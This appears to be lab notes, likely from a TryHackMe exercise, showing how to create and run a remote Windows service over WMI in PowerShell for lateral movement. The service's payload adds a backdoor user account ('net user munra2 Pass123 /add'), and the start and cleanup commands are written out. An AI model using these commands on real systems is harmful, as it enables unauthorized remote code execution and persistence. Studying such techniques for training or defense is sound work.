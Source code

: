 To create services remotely using WMI in PowerShell, follow these steps:

1. Assuming you have already established a WMI session and stored it in the `$Session` variable, you can use the following command to create a service:
   ```powershell
   Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
       Name = "THMService2"
       DisplayName = "THMService2"
       PathName = "net user munra2 Pass123 /add" # Your payload
       ServiceType = [byte]::Parse("16") # Win32OwnProcess: Start service in a new process
       StartMode = "Manual"
   }
   ```
   Replace `THMService2` with the desired service name and adjust the `PathName` parameter to specify the command or payload you want the service to execute.

2. To get a handle on the created service and start it, use the following commands:
   ```powershell
   $Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -Filter "Name LIKE 'THMService2'"
   Invoke-CimMethod -InputObject $Service -MethodName StartService
   ```

3. Finally, to stop and delete the service, use the following commands:
   ```powershell
   Invoke-CimMethod -InputObject $Service -MethodName StopService
   Invoke-CimMethod -InputObject $Service -MethodName Delete
   ```

Make sure to adjust the commands and parameters according to your specific scenario. The required ports for WMI communication are 135/TCP, 49152-65535/TCP (DCERPC), and either 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS). The user account used for creating services remotely should have the necessary permissions, such as being a member of the Administrators group.